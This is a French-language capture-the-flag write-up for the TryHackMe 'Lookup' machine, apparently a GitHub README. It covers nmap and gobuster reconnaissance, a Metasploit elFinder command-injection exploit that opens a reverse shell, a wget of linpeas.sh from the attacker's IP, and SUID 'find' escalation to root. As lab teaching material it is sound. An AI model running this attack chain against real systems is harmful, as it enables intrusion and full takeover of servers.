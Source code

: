 # 📌 Write-Up : Machine Lookup - TryHackMe

## 🖥️ Informations Générales
- **Nom de la machine** : Lookup
- **Difficulté** : Facile
- **Adresse IP** : *(variable selon l'instance TryHackMe)*
- **Outils utilisés** : `nmap`, `gobuster`, `metasploit`, `Linpeas`
- **Objectif** : Obtenir un accès user et root et récupérer les flags

> 
## 🔍 Introduction
Ce write-up détaillé de la machine **Lookup** sur **TryHackMe** explique comment exploiter **elFinder PHP** pour obtenir un shell et escalader les privilèges jusqu'à `root`.

Voici les outils necessaires: nmap, gobuster, burpsuite, metasploit, linpeas
---

## **🖥️ 1. Reconnaissance**  
### 🔍 **1️⃣ Scan Nmap**
On commence par scanner la machine avec **Nmap** pour voir les ports ouverts :  
```bash
nmap -sC -sV -oN scan.txt 10.10.16.70
```
🔹 **Explication** :  
- `-sC` : Lance des scripts de détection par défaut.  
- `-sV` : Identifie les versions des services.  
- `-oN scan.txt` : Sauvegarde les résultats dans un fichier.

**Résultat :**
```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 (Ubuntu)
80/tcp   open  http     Apache httpd 2.4.29
```
👉 On remarque que **SSH (22)** et **HTTP (80)** sont ouverts.  

---

## **🌐 2. Enumeration Web**  
### 🔹 **Accès au site web**
On ouvre **http://lookup.thm/** dans le navigateur.  
Le site affiche une page basique sans information importante.

### 🔹 **Fuzzing des sous-domaines avec Gobuster**
On va chercher des **sous-domaines cachés** avec **Gobuster** :
```bash
gobuster vhost -u http://lookup.thm/ -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50
```
**Résultat :**
```
Found: files.lookup.thm (Status: 200)
```
👉 Un sous-domaine **files.lookup.thm** existe !  

### 🔹 **Ajout dans `/etc/hosts`**
On ajoute ce sous-domaine pour pouvoir y accéder :
```bash
sudo nano /etc/hosts
```
Ajoute cette ligne :
```
10.10.16.70  lookup.thm files.lookup.thm
```

### 🔹 **Accès à `files.lookup.thm`**
En visitant **http://files.lookup.thm/**, on voit une **interface de gestion de fichiers** (elFinder).  
👉 **elFinder est connu pour avoir des vulnérabilités !**

---

## **🚀 3. Exploitation - Command Injection**
### 🔹 **Recherche d'une Exploitation Possible**
On cherche sur Google :  
**"elFinder PHP Connector exploit"**  
➡️ On trouve que la version de **elFinder** utilisée ici est vulnérable à une **command injection** via `exiftran`.

### 🔹 **Exploitation avec Metasploit**
On utilise **Metasploit** pour automatiser l'exploitation :
```bash
msfconsole
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS 10.10.16.70 (VPN tryhackme)
set TARGETURI /php/connector.php
set LHOST Ici Ton IP Tun0 (VPN)
set LPORT 4444
run
```
💥 **Shell obtenu !**  (n'oubliez pas de l'activer si vous êtes sur meterpreter, en tapant: shell)
```
meterpreter > whoami
www-data
```
👉 On a un shell avec l’utilisateur **www-data**.

---

## **🛠️ 4. Escalade de Privilèges**
On veut passer de **www-data** à **root**.  
On lance **LinPEAS** pour détecter des failles :
```bash
wget http://10.11.125.223:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
🔹 **LinPEAS détecte un fichier SUID suspect :**
```
/usr/bin/find has SUID bit set
```
On regarde dans **GTFOBins** si `find` peut être exploité pour devenir root :
```bash
find . -exec /bin/sh -p \; -quit
```
💥 **Root obtenu !**
```bash
whoami
root
```

---

## **🏆 5. Capture du Flag**
On récupère les flags :  

🔹 **User flag** :
```bash
cat /home/user/user.txt
```
🔹 **Root flag** :
```bash
cat /root/root.txt
```

---

## **🎯 Conclusion**
✅ **Méthodologie utilisée :**
1. **Nmap** → Ports ouverts.
2. **Gobuster** → Trouver un sous-domaine caché.
3. **Exploit elFinder** → Command Injection avec Metasploit.
4. **LinPEAS** → Trouver un binaire SUID exploitable.
5. **GTFOBins** → Élever les privilèges et devenir root.

💡 **Leçon apprise :**
- **Ne jamais ignorer les sous-domaines** !
- **Toujours tester les applications web pour des exploits connus.**
- **LinPEAS + GTFOBins = Escalade de privilèges efficace !**

---

